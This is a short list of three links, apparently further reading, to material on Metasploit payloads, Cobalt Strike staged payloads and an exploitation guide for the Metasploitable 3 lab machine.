* <https://docs.rapid7.com/metasploit/working-with-payloads/>

* <https://www.cobaltstrike.com/blog/staged-payloads-what-pen-testers-should-know/>

* <https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/>
